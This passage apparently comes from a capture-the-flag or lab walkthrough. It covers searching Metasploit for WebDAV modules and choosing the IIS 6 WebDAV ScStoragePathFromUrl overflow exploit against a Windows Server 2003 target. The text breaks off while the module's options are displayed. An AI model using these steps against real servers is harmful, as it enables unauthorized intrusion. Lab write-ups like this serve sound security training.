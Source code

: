 ```bash
   auxiliary/scanner/http/dir_webdav_unicode_bypass                           normal     MS09-020 IIS6 WebDAV Unicode Auth Bypass Directory Scanner
   auxiliary/scanner/http/ms09_020_webdav_unicode_bypass                      normal     MS09-020 IIS6 WebDAV Unicode Authentication Bypass
   auxiliary/scanner/http/webdav_internal_ip                                  normal     HTTP WebDAV Internal IP Scanner
   auxiliary/scanner/http/webdav_scanner                                      normal     HTTP WebDAV Scanner
   auxiliary/scanner/http/webdav_website_content                              normal     HTTP WebDAV Website Content Scanner
----------------------------SNIP-----------------------------
   exploit/windows/http/sap_host_control_cmd_exec            2012-08-14       average    SAP NetWeaver HostControl Command Injection
   exploit/windows/http/xampp_webdav_upload_php              2012-01-14       excellent  XAMPP WebDAV PHP Upload
   **exploit/windows/iis/iis_webdav_scstoragepathfromurl**       2017-03-26       manual      Microsoft IIS WebDav ScStoragePathFromUrl Overflow
   exploit/windows/iis/iis_webdav_upload_asp                 1994-01-01       excellent  Microsoft IIS WebDAV Write Access Code Execution
   exploit/windows/iis/ms03_007_ntdll_webdav                 2003-05-30       great      MS03-007 Microsoft IIS 5.0 WebDAV ntdll.dll Path Overflow
   exploit/windows/local/ms16_016_webdav                     2016-02-09       excellent  MS16-016 mrxdav.sys WebDav Local Privilege Escalation
   exploit/windows/misc/ibm_director_cim_dllinject           2009-03-10       excellent  IBM System Director Agent DLL Injection
   exploit/windows/misc/vmhgfs_webdav_dll_sideload           2016-08-05       normal     DLL Side Loading Vulnerability in VMware Host Guest Client Redirector
   exploit/windows/scada/ge_proficy_cimplicity_gefebt        2014-01-23       excellent  GE Proficy CIMPLICITY gefebt.exe Remote Code Execution
   exploit/windows/ssl/ms04_011_pct                          2004-04-13       average    MS04-011 Microsoft Private Communications Transport Overflow
   post/windows/escalate/droplnk                                              normal     Windows Escalate SMB Icon LNK Dropper

```

In this we see a few, but based on the date and description, the best matching appears to be exploit/windows/iis/iis_webdav_scstoragepathfromurl, especially when we view [the description](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl).  This shows it targets Windows Server 2003 R2, which is a possibility for the OS if we look back at the nmap scan, and a rather high up one.  So in this case it doesn't look like it will hurt at all to give this exploit a try.

```bash
msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf exploit(iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                           yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Exploit target:

```